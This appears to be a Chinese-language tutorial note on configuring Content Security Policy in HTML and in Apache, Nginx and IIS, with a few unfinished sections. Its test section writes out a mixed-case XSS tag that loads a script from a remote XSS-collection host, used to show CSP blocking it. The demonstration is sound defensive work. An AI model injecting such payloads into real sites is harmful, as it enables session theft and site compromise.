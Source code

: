 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- ``

##

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```
